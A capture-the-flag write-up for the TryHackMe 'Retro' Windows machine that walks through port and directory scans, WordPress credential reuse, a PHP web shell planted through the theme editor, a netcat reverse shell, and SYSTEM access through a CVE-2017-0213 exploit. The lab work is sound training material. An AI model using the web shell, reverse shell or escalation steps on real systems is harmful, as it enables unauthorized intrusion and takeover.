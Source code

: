 # Retro Writeup

They say there are two paths when completing this room. The first path goes as follows:
* Initial Access
* CVE-2019-1388 for SYSTEM
IF the last step doesn't work for you as it didn't for me you may follow a different path for gaining SYSTEM level access.

https://tryhackme.com/room/retro

## Task 1 Pwn

I started out with a simple nmap scan to check out ports, services, and versions.
```
nmap -sC -sV -oA nmap/common 10.10.119.28
```
```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2021-07-26T18:12:10+00:00
```
So I knew we were dealing with a windows machine running an IIS webserver and remote desktop protocol enabled. Then I went to enumerate the web server. First I hit it with fuzzing using gobuster.
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.204.15
```
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.204.15
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/01 15:15:21 Starting gobuster in directory enumeration mode
===============================================================
/retro                (Status: 301) [Size: 149] [--> http://10.10.204.15/retro/]
```
This gives us the answer to our first question.

From here I poked around the blog page a bit to gather more information. Doing the prequel box, Blaster, before this one helps tremendously as they are very similiar in the initial exploitation phase. We come across a potential username or password in an early blog post.

![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/blogpost.PNG?raw=true)

I decided to fuzz for more directories within /retro. I quickly see that this is a wordpress site with all the wp directories.
```
# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.204.15/retro
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.204.15/retro
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/01 15:22:41 Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 160] [--> http://10.10.204.15/retro/wp-content/]
/wp-includes          (Status: 301) [Size: 161] [--> http://10.10.204.15/retro/wp-includes/
```

So I navigated to `http://10.10.204.15/retro/wp-login.php` to try out these possible credentials. I created a not-so-quick python script to brute force passwords with the username parzival.

I'm not gonna lie this took me WAAY to long to figure out, but parzival is actually the password and wade is the username. After that we are into the wp-admin page.

From prior experience with exploiting wordpress sites I knew I could possibly upload a php reverse shell so I went right to 'Theme Editor' and copied and pasted Pentestmonkey's reverse shell into 'archive.php'. Then I navigated to the location of archives.php in the browser to run the code.

![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/phppentestmonkey.PNG?raw=true)

Obviously this DOES NOT WORK because the webserver is running on windows not linux.
```
└─# nc -lvnp 4444                                                                      1 ⚙
listening on [any] 4444 ...
connect to [10.6.14.57] from (UNKNOWN) [10.10.204.15] 49891
'uname' is not recognized as an internal or external command,
operable program or batch file.
```




So I swap this shell out with this simple php web shell to see if we can even get RCE. `<?php system($_GET["cmd"]);?>`
Then I navigate back to the location of the archive.php and pass in a parameter for 'cmd'.
![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/webshell.PNG?raw=true)

Great! Now that I know we have RCE and I can try a full reverse shell. I got mine from [here](https://github.com/Dhayalanb/windows-php-reverse-shell). I just had to change the ip and port. Then make the tmpdir = "C:\\inetpub\\wwwroot\\retro\\wp-content\\themes\\90s-retro". 
* Copy and paste the shell into archive.php
* Scroll down and click 'Upload File'
* Then set up a netcat listener in a terminal
* Navigate to archive.php in the browser just like before.

![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/reverseshell.PNG?raw=true)

After this I remembered that RDP was enabled and just for the hell of it I tried the same credentials from earlier. SURPRISE they work for RDP. This is better than our reverse shell because we have a real account instead of a service account. We can find user.txt at C:\Users\Wade\Desktop\user.txt

THIS WOULD BE THE POINT IN WHICH YOU SHOULD EXPLORE WHAT THE USER WAS TRYING TO FIX WHICH WAS CVE-2019-1388. IF IT DOES NOT WORK FOR YOU DUE TO A POP UP THEN CONTINUE ON.
![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/popup.PNG?raw=true)


After enumerating with windows-exploit-suggester.py I tried a few different CVEs for priviledge escalation but no success. The exploit I finally had success with was [CVE-2017-0213](https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213). The CVE is extremely simple to use. You just get the exe file onto the victim  and run it. It will then open up a shell running as SYSTEM.

![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/root.PNG?raw=true)

Then we can read root.txt at C:\Users\Administrator\Desktop\root.txt.txt

